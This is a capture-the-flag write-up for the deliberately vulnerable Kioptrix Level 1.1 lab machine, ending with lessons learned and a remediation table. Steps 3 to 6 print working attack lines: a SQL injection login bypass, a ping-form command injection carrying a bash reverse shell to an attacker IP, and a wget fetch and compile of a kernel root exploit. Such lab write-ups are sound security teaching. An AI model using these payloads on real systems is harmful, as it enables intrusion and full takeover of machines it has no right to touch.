




# Kioptrix: Level 1.1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.111 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (32-bit, kernel 2.6) |
| **Root Flag** | root shell via kernel exploit |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) |

## Attack Summary

`nmap` → SQL injection bypass on web login → command injection (`; bash -i`) → reverse shell (www-data) → kernel 2.6 exploit (EDB-9542) → root

## Methodology

1. Network discovery
2. Port and service enumeration
3. Web application login — SQL injection bypass
4. Command injection via ping form
5. Reverse shell
6. Privilege escalation via local kernel exploit

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
# or
sudo arp-scan -l
```

---

## Step 2: Port and Service Enumeration

```bash
nmap -A 192.168.1.111
```

Key findings:
- Port 22: OpenSSH
- Port 80: Apache/2.0 (login page)
- Port 443: SSL
- Port 3306: MySQL



---

## Step 3: SQL Injection — Login Bypass

Navigating to `http://192.168.1.111` presents an admin login form. Standard SQLi bypass works directly.

```
Username: 1' or '1
Password: 1' or '1
```

The server authenticates without valid credentials and presents a ping utility.




---

## Step 4: Command Injection via Ping Form

The ping form passes user input directly to a shell command. Test with:

```
;id
```

Output: `uid=48(apache) gid=48(apache)` — confirmed command injection.

---

## Step 5: Reverse Shell

Start a listener on the attacker machine:

```bash
nc -lvnp 8888
```

Submit the following in the ping form:

```
127.0.0.1; bash -i >& /dev/tcp/192.168.1.107/8888 0>&1
```

Shell received as `apache` user.



---

## Step 6: Privilege Escalation — Kernel Exploit

Check kernel version:

```bash
uname -a
# Linux kioptrix.level2 2.6.9-55.EL ...
```

Kernel 2.6.9 is vulnerable to a local ring0 exploit (Exploit-DB 9542).

```bash
cd /tmp
wget https://www.exploit-db.com/download/9542 --no-check-certificate
mv 9542 shell.c
gcc shell.c -o shell
./shell
```

```bash
id
# uid=0(root)
whoami
# root
```



---

## Lessons Learned

1. **SQL injection in authentication** is trivially bypassed with `' or '1='1` — use parameterized queries, never string concatenation.
2. **User-controlled input piped to shell** (ping utility) creates command injection — always validate/sanitize inputs passed to OS commands.
3. **Outdated kernel versions** (2.6.9) have multiple public local privilege escalation exploits — keep the OS kernel patched.
4. **Defense in depth**: even if SQLi is blocked, the command injection grants a shell; multiple layers of failure here.

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQL injection on login | Use prepared statements / parameterized queries |
| Command injection in ping form | Whitelist input (IPs only), use `escapeshellarg()`, or replace with a safe ping API |
| Kernel 2.6.9 LPE | Upgrade the kernel to a supported version |
| MySQL on 3306 | Restrict MySQL to localhost only |
